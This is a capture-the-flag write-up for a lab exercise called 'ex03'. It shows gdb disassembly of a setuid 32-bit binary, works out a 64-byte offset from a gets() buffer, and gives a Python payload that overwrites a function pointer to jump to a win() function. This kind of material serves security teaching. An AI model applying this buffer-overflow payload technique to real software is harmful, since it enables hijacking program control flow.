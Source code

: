 ## ex03

### Objective
The goal of this challenge is to change the code flow of the binary and see the message "code flow successfully changed".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=cbb07c698e33bffa1d80aa320ad36cc3a5c1b2b3, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    gets
    puts
    printf
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVh8
    [^_]
    code flow successfully changed
    calling function pointer, jumping to 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `gets` function call, which is used to read input into a buffer, and a function pointer that is later called.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048438 <+0>:     push   %ebp
       0x08048439 <+1>:     mov    %esp,%ebp
       0x0804843b <+3>:     and    $0xfffffff0,%esp
       0x0804843e <+6>:     sub    $0x60,%esp
       0x08048441 <+9>:     movl   $0x0,0x5c(%esp)
       0x08048449 <+17>:    lea    0x1c(%esp),%eax
       0x0804844d <+21>:    mov    %eax,(%esp)
       0x08048450 <+24>:    call   0x8048330 <gets@plt>
       0x08048455 <+29>:    cmpl   $0x0,0x5c(%esp)
       0x0804845a <+34>:    je     0x8048477 <main+63>
       0x0804845c <+36>:    mov    $0x8048560,%eax
       0x08048461 <+41>:    mov    0x5c(%esp),%edx
       0x08048465 <+45>:    mov    %edx,0x4(%esp)
       0x08048469 <+49>:    mov    %eax,(%esp)
       0x0804846c <+52>:    call   0x8048350 <printf@plt>
       0x08048471 <+57>:    mov    0x5c(%esp),%eax
       0x08048475 <+61>:    call   *%eax
       0x08048477 <+63>:    leave  
       0x08048478 <+64>:    ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `gets` function is used to read input into a buffer located at `0x1c(%esp)`.
      - A function pointer is located at `0x5c(%esp)`.
      - The function pointer is called at offset `+61`.

3. **Identify the Target Address**:
    - We identified a `win` function in the binary that prints the success message "code flow successfully changed".

    ```sh
    (gdb) info functions
    ```

    - We disassembled the `win` function to find its address.

    ```sh
    (gdb) disassemble win
    ```

    **Disassembly of `win`**:
    ```assembly
    Dump of assembler code for function win:
       0x08048424 <+0>:     push   %ebp
       0x08048425 <+1>:     mov    %esp,%ebp
       0x08048427 <+3>:     sub    $0x18,%esp
       0x0804842a <+6>:     movl   $0x8048540,(%esp)
       0x08048431 <+13>:    call   0x8048360 <puts@plt>
       0x08048436 <+18>:    leave  
       0x08048437 <+19>:    ret    
    End of assembler dump.
    ```

    - The address of the `win` function is `0x08048424`.

4. **Determine Buffer Size and Offset**:
    - The buffer starts at `0x1c(%esp)` and the function pointer is at `0x5c(%esp)`.
    - The offset is `0x5c - 0x1c = 0x40` (64 bytes).

5. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the function pointer to point to the `win` function.

    ```python
    import struct
    import base64

    buffer_size = 64  # 0x40 in hex
    target_address = 0x08048424  # Address of the win function

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_address)

    # Encode the payload in base64
    encoded_payload = base64.b64encode(payload).decode('ascii')
    print(encoded_payload)
    ```

6. **Execute the Binary with the Payload**:
    - We used the following commands to set the payload as an environment variable and run the binary.

    ```sh
    # Generate the payload and print it
    python -c 'import struct, base64; buffer_size = 64; target_address = 0x08048424; payload = b"A" * buffer_size + struct.pack("<I", target_address); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)'

    # Set the environment variable using the copied output
    export PAYLOAD=$(echo QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQSSEBAg= | base64 --decode)

    # Run the binary
    echo -e $PAYLOAD | ./bin
    ```

### Difficulties Encountered

- **Finding the Success Message Address**:
    - Initially, we had trouble identifying the exact address where the success message "code flow successfully changed" is printed.
    - We used GDB to search for the message and disassemble the `win` function to find its address.

- **Handling Non-ASCII Characters in the Payload**:
    - When crafting the payload, we encountered issues with non-ASCII characters.
    - We resolved this by encoding the payload in base64 and then decoding it in the environment variable.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    calling function pointer, jumping to 0x08048424
    code flow successfully changed
    ```
![Succsess Flag](./images/image.png)

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
import base64

buffer_size = 64  # 0x40 in hex
target_address = 0x08048424  # Address of the win function

payload = b'A' * buffer_size
payload += struct.pack("<I", target_address)

# Encode the payload in base64
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)